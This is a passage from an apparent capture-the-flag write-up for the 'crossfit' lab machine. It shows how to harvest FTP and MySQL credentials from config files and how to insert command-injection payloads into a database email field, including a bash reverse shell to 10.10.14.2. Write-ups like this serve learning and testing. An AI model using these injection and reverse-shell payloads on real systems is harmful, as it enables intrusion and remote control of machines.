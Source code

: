 The script also reads a file, but we don't know where. Looking in /srv, there is a FTP directory that we can't access. Looking to FTP config (/etc/vsftpd.conf), we see this line:
```
user_config_dir=/etc/vsftpd/user_conf
```

Reading the file inside it, we see a user.
```
cat /etc/vsftpd/user_conf/ftpadm 
```

Also, we find how logins happen in /etc/pam.d/vsftpd and enumerate credentials - ftpadm:8W)}gpRJvAmnb
```
auth sufficient pam_mysql.so user=ftpadm passwd=8W)}gpRJvAmnb host=localhost db=ftphosting table=accounts usercolumn=username passwdcolumn=pass crypt=3
```

This works in ftp and seems to contain the message directory.
```
lftp -u ftpadm ftp.crossfit.htb
```

You could find ftp credentials by using `grep ftpadm /etc -R` and looking the results.

<br>

#### users in DB
To exploit the command injection, we need to put the command injection into the email field.

We have the connection info in db.php:
```php
<?php
$dbhost = "localhost";
$dbuser = "crossfit";
$dbpass = "oeLoo~y2baeni";
$db = "crossfit";
$conn = new mysqli($dbhost, $dbuser, $dbpass, $db);
?>
```

Connecting:
```
mysql -u crossfit -poeLoo~y2baeni crossfit

# Users table is empty
select * from users;
```

Add a file inside the ftp directory and insert command injection.
```sql
insert into users(email) values('--wrong || touch /dev/shm/bido');

insert into users(email) values('--wrong || bash -c "bash -i &> /dev/tcp/10.10.14.2/443 0>&1"');
```

<br>
